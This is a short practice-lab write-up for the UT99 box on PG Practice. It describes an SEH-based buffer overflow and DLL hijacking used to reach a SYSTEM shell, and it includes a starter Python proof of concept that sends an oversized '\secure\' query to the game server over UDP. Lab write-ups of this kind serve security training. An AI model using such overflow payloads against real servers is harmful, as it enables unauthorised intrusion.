 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/sLXhzxiLZ4U/0.jpg
layout: post
media_subpath: /assets/posts/2021-09-09-seh-based-buffer-overflow-dll-hijacking-ut99-pg-practice
tags:
- binary exploitation
- dll hijacking
- pg practice
- seh buffer overflow
- windows
title: SEH Based Buffer Overflow & DLL Hijacking - UT99 @ PG Practice
---
```


We are solving UT99, an intermediate windows box on PG Practice. On this box, we are going to exploit an SEH based buffer overflow. And to make it a bit more fun we’ll do that one manually instead of just firing some exploit from exploitdb. Then for root, we will place a malicious DLL in the path of SYSTEM and reboot the box, which will result in a privileged shell.

{% youtube sLXhzxiLZ4U %}

## Notes

Below you can find a PoC to get you started in case you want to try it manually:

**PoC**

```python
import socket
from pwn import *

rserver = ""
lserver = ""
port = 7778
size = 800

r = remote(lserver, port, typ="udp")
r.send("\\basic\\")
log.info(r.recv())

buffer = b""
buffer += b"\\secure\\"
buffer += b"A"*size

r.send(buffer)
r.close()
```